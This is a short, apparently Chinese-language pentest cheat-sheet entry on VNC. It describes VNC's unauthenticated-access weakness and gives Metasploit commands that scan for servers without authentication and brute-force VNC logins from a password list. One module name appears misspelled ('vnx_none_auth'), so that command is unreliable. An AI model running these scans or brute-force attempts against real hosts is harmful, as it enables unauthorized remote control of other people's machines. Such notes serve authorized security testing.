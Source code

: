 
# VNC

**文章**
- [VNC攻击](https://b404.xyz/2017/10/16/attack-vnc/)

**未授权访问漏洞**
- 简述

    VNC 是虚拟网络控制台 Virtual Network Console 的英文缩写。它是一款优秀的远程控制工具软件由美国电话电报公司 AT&T 的欧洲研究实验室开发。VNC 是基于 UNXI 和 Linux 的免费开源软件由 VNC Server 和 VNC Viewer 两部分组成。VNC 默认端口号为 5900、5901。VNC 未授权访问漏洞如被利用可能造成恶意用户直接控制 target 主机。

- MSF 模块
    ```bash
    use auxiliary/scanner/vnc/vnx_none_auth
    set rhosts <ip>
    set threads 50
    run
    ```

**暴力破解**
- MSF 模块
    ```bash
    use auxiliary/scanner/vnc/vnc_login
    set RHOSTS <ip>
    set RPORT <port>
    set pass_file /root/Desktop/pass.txt
    run
    ```

